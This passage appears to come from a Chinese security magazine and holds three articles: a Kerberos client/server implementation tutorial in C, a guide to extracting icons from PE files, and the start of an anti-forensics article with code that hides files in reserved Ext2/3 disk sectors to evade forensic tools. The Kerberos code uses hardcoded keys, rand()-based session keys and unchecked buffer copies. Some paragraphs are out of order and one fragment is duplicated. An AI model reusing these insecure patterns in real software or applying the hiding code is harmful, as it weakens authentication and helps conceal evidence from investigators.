void CKerberos_clientDlg::OnSendReqToAS()
{
    char req_buf[50] = {0};
    char dest_addr[] = "127.0.0.1";
    short port = 6000;
    SYSTEMTIME sys_time;  // 变量声明
    GetSystemTime(&sys_time);  // 取得现在的日期时间
    sprintf(req_buf, "Name:kevin\\Tgs:mailServ\\Req:AS");

    sendMsgToAs(req_buf, dest_addr, port);
}
```

AS解析发送的Req消息，访问数据库查询Client注册时提供的私钥和Client请求的TGS的私钥，最后构造KRB_AS_REP消息。这里我们采用V5版本的说明，不再对K_tgs加密后生成的票据授权票据再次实施加密。在编程实现上，我采用先将Tickets_Tgs和{k(c,tgs), tgs, TS2, lifetime}Kc密文写入本地文件，然后再通过TCP协议发送到Client端。相关代码如下：

```cpp
void CKerberos_servDlg::Translate_Msg(char *recv_buf, char *client_addr)
{
    char *p, *q, temp[10]={0};
    char keys_client_tgs[300], tickets[300];
    char clientName[30], tgs[30];

    p = strstr(recv_buf, "Req:");
    strcpy(temp, p+4);
    if(!strcmp(temp, "AS")) {
        // ***获取客户端用户名***
        memset(temp, 0, sizeof(temp));
        p = strstr(recv_buf, "Name:");
        q = strstr(recv_buf, "Tgs:");
        strncpy(temp, p+5, q-p-6);
        memset(clientName, 0, sizeof(clientName));
        strcpy(clientName, temp);

        // *****获取Tgs服务器*****
        memset(temp, 0, sizeof(temp));
        p = strstr(recv_buf, "Tgs:");
        q = strstr(recv_buf, "Req:");
        strncpy(temp, p+4, q-p-5);
        memset(tgs, 0, sizeof(tgs));
        strcpy(tgs, temp);
    }
}
```

```cpp
//**访问数据库查询Client私钥和TGS私钥****//
char Kc[9] = "12345678";
// 客户端用户在AS服务器登记的密钥
char Key_Tgs[9] = "23456789";
// TGS服务器在AS服务器登记的密钥

//**构造随机密钥（Client和TGS共享的会话密钥）****//
srand(GetTickCount());
char keys_client_tgs[8] = {0};
char buf[2];
for(int i=0;i<8;i++){
    memset(buf, 0, sizeof(buf));
    sprintf(buf, "%d", rand() % 10);
    strcat(keys_client_tgs, buf);
}

SYSTEMTIME sys_time;  // 变量声明
GetSystemTime(&sys_time);
// 取得现在的日期时间
char time_stamp[30] = {0};
sprintf(time_stamp, "%4d-%2d-%2d %2d:%2d:%2d", sys_time.wYear,sys_time.wMonth,sys_time.wDay,sys_time.wHour,sys_time.wMinute,sys_time.wSecond);
unsigned int lifetime = 240;
// 定义有效期为4小时
memset(tickets, 0, sizeof(tickets));
sprintf(tickets, "K(c,tgs):%s\\C:%s\\AD(c):%s\\tgs:%s\\TS:%s\\lifeTime:%d",
    keys_client_tgs, clientName, client_addr, tgs, time_stamp, lifetime);
int Tgs_ticket_len = strlen(tickets);
char *Tickets_Tgs = new char[Tgs_ticket_len+5];
// 多申请5字节存放明文文件大小
memset(Tickets_Tgs, 0, sizeof(Tickets_Tgs));
((unsigned int*)Tickets_Tgs)[0] = Tgs_ticket_len;
// 前4个字节标定文件的大小
// 调用CBC模式的DES加密算法，加密文件使其成为一个票据授权票据
DES_CBC_Encrypt(Key_Tgs, tickets, Tickets_Tgs, Tgs_ticket_len);

// 构造{k(c,tgs), tgs, TS2, lifetime}消息，并用Kc私钥加密
char AS_Rep_P[300];
sprintf(AS_Rep_P, "K(c,tgs):%s\\tgs:%s\\TS:%s\\lifetime:%d",
    keys_client_tgs, tgs, time_stamp, lifetime);
int AStoClient_len = strlen(AS_Rep_P);
char *AS_Rep_S = new char[AStoClient_len+5];
memset(AS_Rep_S, 0, sizeof(AS_Rep_S));
((unsigned int*)AS_Rep_S)[0] = AStoClient_len;
DES_CBC_Encrypt(Kc, AS_Rep_P, AS_Rep_S, AStoClient_len);
```

```c
AStoClient_len);
// 将这些信息写入到本地文件
FILE *fp = fopen("d:\\AStoClient.txt", "w+");
if(!fp){
    printf("open file failure!\n");
    return;
}
fwrite("Client:", sizeof(char), strlen("Client:"), fp);
fwrite(AS_Rep_S, sizeof(char), AStoClient_len+5, fp);
fwrite("\r\nTickets:", sizeof(char), strlen("\r\nTickets:"), fp);
fwrite(Tickets_Tgs, sizeof(char), Tgs_ticket_len+5, fp);
fwrite("\r\nRep:AS", sizeof(char), strlen("\r\nRep:AS"), fp);
fclose(fp); return;
```

```c
fseek(fp, 0, SEEK_SET);
// 文件指针重新回到文件头位置
unsigned int readbytes = 0;
while(fsize > 0){
    readbytes = fread(buff, sizeof(char), 1024, fp);
    // 每次读取1024字节
    send(sockClient,buff,readbytes,0);
    // 将读取到的字节发送到Client端
    fsize -= readbytes;
}
fclose(fp);
```

构造好如图2所示的消息后，即可向Client端发送此KRB_AS_REP消息了。

图2

注意，这里最好不要使用sprintf、strncpy等函数对密文字符串进行格式化及拷贝等操作，因为密文字符串中极有可能存在空字符，若存在会导致忽略空字符后面的字符，使得发送Client端的密文无法正常解密，进而使得Client端将合法的AS或者TGS认为是非法端，而做出放弃再次发出Req的举动。

OK，现在AS可以将AStoClient.txt文件发送到Client端了。文件之间的发送大家应该会吧，还是采用TCP协议实现，代码如下：

## 1. AS端的实现

```c
FILE *fp = fopen("d:\\AStoClient.txt", "rb");
if(!fp){
    printf("open file failure!\n"); return;
}
fseek(fp, 0, SEEK_END);
// 将文件指针移动到末端，获取文件大小
unsigned int fsize = ftell(fp);
char f_size[4] = {0}; // 用于存放文件大小
*((unsigned int*)&f_size[0]) = fsize;
send(sockClient,f_size,4,0);
// 首先将文件大小发送到客户端
char buff[1024] = {0};
```

## 2. Client端的实现

```c
// **接收AS服务器发送来的票据授权票据文件**
FILE *fp;
fp = fopen("D:\\mytext.txt", "w+");
if(!fp){
    printf("file open failure!\n"); return;
}
char f_size[4] = {0}, buff[1024] = {0};
int fsize, recvbytes;
recv(sockClient, f_size, 4, 0); // 接收文件大小
fsize = *((int*)(&f_size[0]));
while(fsize>0){
    // 根据文件大小与每次循环接收到的字节数来判断循环次数
    recvbytes = recv(sockClient, buff, 1024, 0);
    // 将接收到的字节写入到Client端的文件中，便于调用Translate_ASMsg()函数进一步解析
    if(!fwrite(buff, sizeof(char), recvbytes, fp)){
        printf("write failed!\n");
    }
    fsize -= recvbytes;
}
fclose(fp);
Translate_ASMsg();
// 客户端解析AS发送来的票据授权票据信息
```

当文件成功接收后，Client端就可以在本地解析此文件了，将文件中的票据授权票据Tickets_tgs和{k(c,tgs),tgs,TS2,lifetime}Kc正确分离出来，并调用DES_CBC_Decrypt()函数解密{k(c,tgs),tgs,TS2,lifetime}Kc消息，因为Client在向AS注册时已经和AS共享了自己的私钥Kc。正确解密后，则可在此消息中提取出AS为Client和TGS随机产生的共享会话密钥K(c,tgs)，进而构造发往TGS的KRB_TGS_REQ = {AppServ, Tickets_Tgs, Authen_info}消息，相关实现代码如下：

```c
FILE *fp;
fp = fopen("D:\\AStoClient.txt", "rb");
if(!fp){
    ...
}
```

```c
printf("file open failure!\n");
return;
}

// 提取AS发给Client端的加密消息
char line[300] = {0};
fgets(line, 300, fp);
if (strstr(line, "Client:")) {
    memset(line, 0, sizeof(line));
    fseek(fp, strlen("Client:"), SEEK_SET);
    fgets(line, 300, fp);
}
char Kc[9] = "12345678";

// ...（中间为K(c,tgs)、tgs、时间戳、Authen_info等解析与构造）

int block = ((unsigned int *)line)[0];
int last = line[4];
int fsize = block * 8 + last;
char *ASToC_Plain = new char[fsize];
DES_CBC_Decrypt(Kc, line, ASToC_Plain);

char *p, *q;
char key_c_tgs[9] = {0};
p = strstr(ASToC_Plain, "K(c,tgs):");
q = strstr(ASToC_Plain, "tgs:");
memcpy(key_c_tgs, p + 9, q - p - 10);

SYSTEMTIME sys_time;
GetSystemTime(&sys_time);
char time_stamp[30] = {0};
sprintf(time_stamp, "%4d-%2d-%2d,%2d:%2d:%2d", ...);

char Authen_info[100];
memset(Authen_info, 0, sizeof(Authen_info));
sprintf(Authen_info, "Name:kevin\\cip:127.0.0.1\\TS:%s", time_stamp);

int Authen_info_len = strlen(Authen_info);
char *Authen_info_S = new char[Authen_info_len + 5];
memset(Authen_info_S, 0, sizeof(Authen_info_S));
((unsigned int*)Authen_info_S)[0] = Authen_info_len;
DES_CBC_Encrypt(key_c_tgs, Authen_info, Authen_info_S, Authen_info_len);
```

```c
// 提取AS发给Client端的票据授权票据
memset(line, 0, sizeof(line));
fgets(line, 300, fp);
if (strstr(line, "Tickets:")) {
    memset(line, 0, sizeof(line));
    fseek(fp, strlen("Tickets:"), SEEK_CUR);
    fgets(line, 300, fp);
}

char tgs_tickets[300] = {0};
memcpy(tgs_tickets, line, strlen(line) - 7);

fclose(fp);
fp = fopen("D:\\CToTgs.txt", "w+");
if (!fp) {
    MessageBox("file open failure!\n");
    return;
}

fwrite("AppServ:FTPServ", ... , fp);
fwrite("\r\nTickets:", ... , fp);
fwrite(tgs_tickets, ... , fp);
fwrite("\r\nAuthen_info:", ... , fp);
fwrite(Authen_info_S, ... , fp);
fclose(fp);
```

接下来大家应该知道如何操作了，就是将文件发送给TGS，TGS接收到消息后解析出Tickets_tgs，然后采用自己的私钥Ktgs解密此票据，判断是否为合法Client的请求，以便进一步处理。OK，关键的部分全部分析完了，相信大家应该知道如何实现了吧？一定要动手自己编写代码试试哦。

#### 小结

本文分析了Kerberos安全认证协议的基本原理，并通过简单编程实现了此协议，给出了编程过程中需要注意的部分及核心代码说明。希望本文能激发更多的人关注网络安全协议的研究，若对安全协议感兴趣，推荐大家品读一下范红编写的《安全协议理论与方法》及其密码学经典作《现代密码学理论与实践》。对初学者，建议阅读密码学大师Schneier所著的《应用密码学——协议、算法与C源程序》，相信它们会带给你不一样的感觉，也欢迎大家一起在黑防论坛共同交流学习。

前置知识：VC

关键词：编程、PE、资源

## PE格式分析

### 取得ICO图标


文/图 hammers

PE文件是NT下可执行文件的主要格式，像EXE文件、DLL文件和OCX文件等均是此格式。有时我们看到有的可执行文件的ICO图标非常漂亮，想据为己用，就自己写个程序来提取。本文通过分析PE文件格式，尤其是分析资源段的结构，来从可执行文件中提取有用的资源。

其中，Signature为PE文件标志，恒为“PE”。IMAGE_FILE_HEADER中有用的是NumberOfSections成员，描述了节数。IMAGE_OPTIONAL_HEADER32主要与执行代码相关，对资源节的分析并无用处，将另文描述。IMAGE_NT_HEADERS32之后就是节表了，节表结构的定义为：

#### 实现原理

如图1所示，PE文件主要由5部分组成，分别为DOS头、PE文件头、节表、节数据和调试信息。下面分别对这几个部分做简单介绍。



关于DOS文件头、PE文件头和节表，以前的文章都有很详细的描述。本文就不多费笔墨进行详细说明，只做一下简单介绍。DOS文件头的保留并没有实际意义，只是为了在DOS下运行NT程序时对用户有个友好的提示，其结构定义在WINNT.H中，其中对我们有意义的字段是e_magic和e_lfanew，e_magic恒为“MZ”，e_lfanew指明了PE头的地址。

```c
#define IMAGE_SIZEOF_SHORT_NAME 8
typedef struct _IMAGE_SECTION_HEADER {
    BYTE  Name[IMAGE_SIZEOF_SHORT_NAME];
    union {
        DWORD PhysicalAddress;
        DWORD VirtualSize;
    } Misc;
    DWORD VirtualAddress;
    DWORD SizeOfRawData;
    DWORD PointerToRawData;
    DWORD PointerToRelocations;
    DWORD PointerToLinenumbers;
    WORD  NumberOfRelocations;
    WORD  NumberOfLinenumbers;
    DWORD Characteristics;
} IMAGE_SECTION_HEADER, *PIMAGE_SECTION_HEADER;
```

在PE文件的e_lfanew偏移处，存放了一个名为IMAGE_NT_HEADERS32的结构，其定义为：

```c
typedef struct _IMAGE_NT_HEADERS {
    DWORD Signature;
    IMAGE_FILE_HEADER FileHeader;
    IMAGE_OPTIONAL_HEADER32 OptionalHeader;
} IMAGE_NT_HEADERS32, *PIMAGE_NT_HEADERS32;
```

我们关心的是3个字段，即Name（节的名字，资源节一般为“.rsrc”）、VirtualAddress和PointerToRawData。VirtualAddress和PointerToRawData用来计算图标资源在文件中的真正地址。到此为止，前3部分我们关心的成员就介绍完了。关于资源节，各种介绍文章很多，但基本上全是没有完全点到痒处，直接使用都解决不了问题。

目录的结构（这个目录一般固定为3层，本文也仅讨论3层目录的情况）。我对文件系统没有仔细研究过，也不敢妄下结论，重点对这一部分做个介绍。资源节的结构如图2所示。



图2

D00表示根目录，D10、D11表示1级目录，D20、D21表示2级目录。E01、E02表示根目录的资源入口，E101、E102、E111和E112表示1级目录的资源入口，E201、E202、E211和E212表示2级目录的资源入口，DATA表示实际的资源数据。下面说明是如何从根目录寻址到资源数据的。

首先根据资源节表的PointerToRawData成员找到资源节的位置。这个位置放了一个IMAGE_RESOURCE_DIRECTORY结构，也就是资源节的根目录。其内容有：

```c
typedef struct _IMAGE_RESOURCE_DIRECTORY {
    DWORD Characteristics;
    DWORD TimeDateStamp;
    WORD  MajorVersion;
    WORD  MinorVersion;
    WORD  NumberOfNamedEntries;
    WORD  NumberOfIdEntries;
} IMAGE_RESOURCE_DIRECTORY,
 *PIMAGE_RESOURCE_DIRECTORY;
```

NumberOfNamedEntries与NumberOfIdEntries描述了本目录下有多少个资源入口。紧接着目录的是这个目录的资源入口数组，其结构为：

```c
typedef struct _IMAGE_RESOURCE_DIRECTORY_ENTRY {
    union {
        ...
    };
} IMAGE_RESOURCE_DIRECTORY_ENTRY;
```

```c
struct {
    DWORD NameOffset:31;
    DWORD NameIsString:1;
};
DWORD Name;
WORD  Id;

union {
    DWORD OffsetToData;
    struct {
        DWORD OffsetToDirectory:31;
        DWORD DataIsDirectory:1;
    };
};
} IMAGE_RESOURCE_DIRECTORY_ENTRY,
 *PIMAGE_RESOURCE_DIRECTORY_ENTRY;
```

IMAGE_RESOURCE_DIRECTORY_ENTRY结构由两个DWORD值组成。对第1个DWORD来说，目录层数不同会有不同的含义，当为根目录入口时，用ID来标识资源的类型；如果为图标资源，ID为3，其他的可以按照WINUSER.H中的定义。对1级目录入口来说，如果NameIsString为1，说明这个资源是一个有名字的资源，放在NameOffset位置处；对2级目录入口来说，这个字段用来标识这个资源的ID号，也就是编程时所用的资源ID号。第2个字段相对简单一些，DataIsDirectory用来标识有无下层目录，当DataIsDirectory为1时，OffsetToDirectory用来标识下层目录的位置；当DataIsDirectory为0时，OffsetToDirectory用来标识资源数据的位置。

根据上述描述可以找到资源的位置，下一个要解决的问题是如何保存图标文件。PE文件中的图标文件其实是一个小的BMP文件，需要进行简单的处理才能保存为图标文件。我们只需要在读出的图标内容前加一个文件头即可，文件头的结构为：

```c
typedef struct {
    WORD idreserved;
    WORD idtype;
    WORD idcount;
    ICONDIRENTRY identries;
} ICONDIR, *LPICONDIR;
```

图标文件与资源段类似，也是一个类似目录结构的数据组织形式。idcount说明这个文件中的图标数，为了简单起见，每个文件只保存一个图标，故idcount恒定为1，idreserved固定为0，idtype固定为1。identries是一个类型为ICONDIRENTRY的结构，其结构如下：

```c
typedef struct
{
    BYTE  bwidth;
    // width, in pixels, of the image
    BYTE  bheight;
    // height, in pixels, of the image
    BYTE  bcolorcount;
    // number of colors in image (0 if >=8bpp)
    BYTE  breserved;
    // reserved ( must be 0 )
    WORD  wplanes;
    // color planes
    WORD  wbitcount;
    // bits per pixel
    DWORD dwbytesinres;
    // how many bytes in this resource?
    DWORD dwimageoffset;
    // where in the file is this image?
} ICONDIRENTRY, *LPICONDIRENTRY;
```

这里描述了图标的高、宽及颜色数等。成员填充的具体算法可以参照程序源码SaveIcon函数的用法，在此就不叙述了。

#### 程序实现

将PE文件读入缓冲后，先用函数GetRSrcPos得到资源节的首地址，然后再由GetRSrcStep0取出图标资源并保存为图标文件。GetRSrcPos函数的源码为：

```c
unsigned long GetRSrcPos(unsigned char *buf)
{
    unsigned long RSrcPos = 0;
    IMAGE_NT_HEADERS32 *NtHead = NULL;
    IMAGE_SECTION_HEADER *SecHead = NULL;
    IMAGE_RESOURCE_DIRECTORY *ResDir = NULL;

    unsigned long PePos = GetPePos(buf);

    // NT Header
    NtHead = (IMAGE_NT_HEADERS32 *)&buf[PePos];
    // Sections Begin
    int pos = PePos + sizeof(IMAGE_NT_HEADERS32);
    for (WORD i = 0; i < NtHead->FileHeader.NumberOfSections; i++)
    {
        SecHead = (IMAGE_SECTION_HEADER *)&buf[pos];
        printf("%s\n", SecHead->Name);
        if (memcmp(SecHead->Name, ".rsrc", strlen(".rsrc")) == 0)
        {
            RSrcPos = SecHead->PointerToRawData;
            subRav = SecHead->VirtualAddress - SecHead->PointerToRawData;
            break;
        }
        pos += 40;
    }
    return RSrcPos;
}
```

```c
{
    SecHead = (IMAGE_SECTION_HEADER *)&buf[pos];
    printf("%s\n", SecHead->Name);
    if (memcmp(SecHead->Name, ".rsrc", strlen(".rsrc")) == 0)
    {
        RSrcPos = SecHead->PointerToRawData;
        subRav = SecHead->VirtualAddress - SecHead->PointerToRawData;
        break;
    }
    pos += 40;
}
return RSrcPos;
}
```

该函数遍历PE文件的节表，返回名字为.rsrc的节的首地址，此外还要计算一个VirtualAddress与PointerToRawData的差，放入全局变量subRav中。

GetRSrcStep0是遍历资源节的根目录，找出ID为3的目录位置并调用GetRSrcStep1函数来遍历1级目录。

GetRSrcStep1用来遍历1级目录，按照图标个数依次调用GetRSrcStep2遍历2级目录。

GetRSrcStep2用来取出图标资源并调用SaveIcon函数对取出的图标资源进行保存。

GetRSrcStep0、GetRSrcStep1、GetRSrcStep2和SaveIcon等函数的具体实现请参考本书光盘中所附源码，就不在这里罗列了。

#### 总结

本文主要解决了两个问题，一个是如何进行资源的查找，另一个是ICO图标的保存。关于实现上，还有许多要完善的地方，比如文件类型检查之类的都没做，这部分也不是本文探讨的重点。还记得以前有篇文章讲如何进行图标替换，其实利用本文所介绍的知识也可以很容易做到。当然，实现图标文件的提取还有别的方法，比如用Resource Functions的一系列API函数也能很容易地实现。探讨事情的本质是一个人前进的动力，我的论坛ID是hammers，欢迎大家到论坛与我讨论。

（编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC

关键词：编程、信息隐藏、反取证



### 自主研发基于文件系统的计算机反取证软件

文／图 小小彬

计算机网络犯罪演化的各种技术与网络安全实施的各种防御技术之间的对抗，从来就没有停止过。相反，其对抗形式在不断地升级。每一种安全技术的背后总会引起 Cracker 们更多的思索，即如何躲避各种安全技术的防御。计算机取证学作为一门新兴的交叉学科，越来越多地受到计算机安全与法律专家的重视。很多高校、研究机构甚至一些司法鉴定机构都在合作研发自己的计算机取证平台软件，以期侦查、提取出更多的电子证据，将 Cracker 对 victim 主机实施的各种攻击行为完整地重现。然而，与此同时，一种新的反计算机取证技术（Anti-Computer Forensics）也正悄然兴起，以对抗计算机取证技术。

反取证技术当前主要包括以下几种技术：

- **数据摧毁技术**：一般的文件删除甚至删除后多次覆盖，并不意味着数据的摧毁。如 MFM（Magnetic Force Microscopy）和 STM（Scanning Tunneling Microscopy）技术可以从磁介质中重新找到被完全重写的数据。美国国防部 DOD 5220.22-M（C and E）标准推荐使用 3 次以上的 0、1 交替覆盖方案。
- **数据加密技术**：当犯罪分子需要保存一些有用数据时，为了使取证分析员无法理解此数据，Cracker 们则会选择一种高强度的加密算法对这些数据进行加密处理。
- **数据隐藏技术**：在反取证中应用隐秘术，选择一个正常的载体如视音频文件等，将机密信息嵌入其中，以达到混淆视听的效果。隐藏技术方式存在多种手段，而且复杂多变。
- **数据混淆技术**：故意增添大量的冗余信息，使恶意文件难以识别，或者采用一些特殊符号（如 Backspace、Delete 等控制符）来隐藏攻击。
- **防止数据创建技术**等。

本文主要围绕数据隐藏技术主题，分析讨论如何在保证文件系统正常工作的前提下，将数据隐藏到指定文件系统的特定物理扇区位置，以逃避取证软件的检测。本文涉及的文件系统主要包括 Ext2/3 和 NTFS，给出了 ExtX 及 NTFS 下可隐藏区域，对每个隐藏区域进行详细分析，最后通过代码剖析的方式，讲解如何实现隐藏和反隐藏，并开发出针对文件系统的反取证软件。

#### Ext2/3 文件系统的信息隐藏区域分析

Ext 文件系统在设计之初即考虑到未来系统的升级需要，文件系统中引入了一些保留位置以存储因升级而增添的一些额外元数据。在 Ext2/3 中，应用程序并不会对这些保留位置进行任何读写操作。当数据被写入到此区域，也不会覆盖系统中存放的任一文件，同时也不影响文件系统的各种操作。因此，这些保留区域是信息隐藏的理想寄宿地。

Ext2/3 的整体组织结构这里就不再赘述了，可以参阅《Linux 下基于 Ext2/3 的数据恢复程序设计》一文。其中存在组描述符表，包含了分区中所有块组的组描述符结构，其结构体定义如下：

```c
struct ext3_group_desc{
    __le32    bg_block_bitmap;
    /* Blocks bitmap block */
    __le32    bg_inode_bitmap;
    /* Inodes bitmap block */
    __le32    bg_inode_table;
    /* Inodes table block */
    __le16    bg_free_blocks_count;
    /* Free blocks count */
    __le16    bg_free_inodes_count;
    /* Free inodes count */
    __le16    bg_used_dirs_count;
    /* Directories count */
    __u16     bg_pad;
    __le32    bg_reserved[3];
};
```

在组描述符结构中共有 14 个字节可用做隐藏信息，结构体成员变量 bg_pad 和 bg_reserved 没有任何含义，前者用来字节对齐，后者为保留字节。虽然这只有 14 个字节大小，但我们完全可以将文件划分为多个 14 字节，分开存放在多个组描述符结构体中。

在 Ext2/3 系统分区中，最前面的两个扇区共 1024 字节一般都为空，因为其设计中假设此区域为 Boot Loader 所占用。因此，Cracker 们可能会借用此区域隐藏电子证据。我们可以使用 WinHex 工具查看 Linux 下 Ext2/3 分区前两个扇区的内容，一般为空。

超级块结构在 Ext2/3 分区中占用两个扇区，组描述符表紧跟超级块，即在超级块所在块的下一块号中。若每块大小为 4096 字节，即 8 个扇区时，则会存在 4 个空闲扇区。因为引导扇区占两个扇区，超级块占两个扇区，而组描述符表在下一个块号中存放，故 4、5、6、7 扇区空闲，共 2048 个字节。而且 superblock 结构体本身所占字节数也远远小于两个扇区，同样也可挪用其剩余的字节数存放电子证据。当未激活稀疏超级块特征时，每个块组中都存有超级块和组描述表的备份，这些区域在系统未崩溃之前是不会访问的，完全可以使用这些区域来存放大量的隐私。

在索引节点表中，并不是每个 inode 节点都有实际意义，即对应一个特定的文件或目录。在 Ext2 中，inodes 7~10 共 4 个 inode 节点没有使用。每个 inode 节点占 128 字节，共 512 字节可以利用。在 Ext3 中，inode 9~10 两个节点可以用来存放隐私。

#### 程序设计实现 ExtX 下加密信息的隐藏

如何通过程序设计读写 Linux 下的 Ext2/3 分区内容呢？在 Windows XP/2000 下，我们可以直接调用 CreateFile 打开指定分区并返回分区对应的句柄，然后调用 ReadFile 和 WriteFile 函数对指定扇区进行读写操作。在 Linux 下其实只需使用简单的 C 函数即可实现对指定扇区位置进行读写操作。调用 fopen 函数打开 Linux 下的 Ext2/3 分区，返回一个文件指针，然后调用 fread 和 fwrite 函数即可实现指定扇区的读写操作。下面以 Ext3 分区为例，笔者的 Linux 平台为 Linux Redhat-2.6.18，原始状态下，引导扇区所占的两个扇区为空。下面笔者使用这几个函数将文件 test.txt 内容写入到这两个扇区中。

```c
#include <fcntl.h>
#include <stdio.h>
#include <malloc.h>
#include "readfile.h"
int main(int argc, char *argv[]){
    FILE *pfile, *pf;
    char *buff = NULL;
    struct ext3_super_block super_block;
    // 定义超级块结构体对象
    pfile = fopen("/dev/sda9","rw+");
    // 打开Ext3所在分区sda9
    if(pfile==NULL){
        printf("open file failed!\n");
        return -1;
    }

    pf = fopen("/home/hide.txt", "rb+");
    buff = (char*)malloc(1024);
    fread(buff, 1, 1024, pf);
    fwrite(buff,1,1024,pfile);
    // 将hide.txt文件内容写入到Ext3引导扇区中
    free(buff);

    fseek(pfile,1024,SEEK_SET);
    // 移动文件指针，指向superblock起始扇区位置
    fread(&super_block, 1, sizeof(super_block), pfile);
    // 填充superblock结构体
    printf("%d\n", super_block.s_inodes_count);

    fseek(pfile, 512 * 4, SEEK_SET);
    // 移动文件指针，定位到0号块组的第4个逻辑扇区处
    pf = fopen("/home/hide2.doc", "rb+");
    buff = (char*)malloc(512 * 4);
    fread(buff, 1, 512 *4, pf);
    fwrite(buff, 1, 512 *4, pfile);
    // 将文件 hide2.doc 内容全部写入到逻辑扇区 4~7 中
    free(buff);
    fclose(pf);
    fclose(pfile);
    return 0;
}
```

